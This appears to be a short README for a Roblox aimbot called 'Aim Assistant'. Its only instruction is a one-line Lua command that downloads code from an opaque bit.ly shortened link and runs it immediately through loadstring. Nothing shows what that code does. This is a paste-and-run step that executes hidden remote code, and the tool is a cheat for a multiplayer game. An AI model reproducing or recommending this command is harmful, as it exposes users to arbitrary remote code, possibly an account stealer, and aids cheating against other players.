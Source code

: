 # Aim Assistant

A legit-style aimbot for Roblox.

```lua
loadstring(game:HttpGet("https://bit.ly/3SvVSrC"))()
```
